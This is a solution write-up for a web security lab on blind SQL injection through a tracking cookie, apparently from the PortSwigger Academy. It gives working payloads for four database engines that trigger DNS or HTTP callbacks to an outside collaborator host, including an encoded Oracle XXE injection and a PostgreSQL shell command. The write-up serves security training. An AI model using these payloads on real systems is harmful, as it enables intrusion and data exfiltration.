 # Lab: Blind SQL injection with out-of-band interaction

## Lab

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator. 

## Hint

You can find some useful payloads on our SQL injection cheat sheet. 

## Solution

When a request containing a `TrackingId` cookie is processed, the application determines whether this is a known user using an SQL query like this: 
```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

Now, suppose that the application carries out the same SQL query, but does it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute an SQL query using the tracking cookie. The query is still vulnerable to SQL injection, however none of the techniques described so far will work: the application's response doesn't depend on whether the query returns any data, or on whether a database error occurs, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. As previously, these can be triggered conditionally, depending on an injected condition, to infer information one bit at a time. But more powerfully, data can be exfiltrated directly within the network interaction itself.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). This is because very many production networks allow free egress of DNS queries, because they are essential for the normal operation of production systems.

The easiest and most reliable way to use out-of-band techniques is using Burp Collaborator. This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Support for Burp Collaborator is built in to Burp Suite Professional with no configuration required.

The techniques for triggering a DNS query are highly specific to the type of database being used:
|SQL Server |Payload                                                                                                                                        |
|-----------|-----------------------------------------------------------------------------------------------------------------------------------------------|
|Oracle     |<code>SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual            </code>|
|Microsoft  |<code>exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'                                                                         </code>|
|PostgreSQL |<code>copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'                                                                </code>|
|MySQL      |<code>LOAD_FILE('\\\\\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')<br />SELECT ... INTO OUTFILE '\\\\\\\\BURP-COLLABORATOR-SUBDOMAIN\a'                                                                                      </code>|


Fuzzing the payloads:
```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'||(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//6ho8e3moxa93hpfctfi0p8n84zapye.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual)--'
```

So that we solved this lab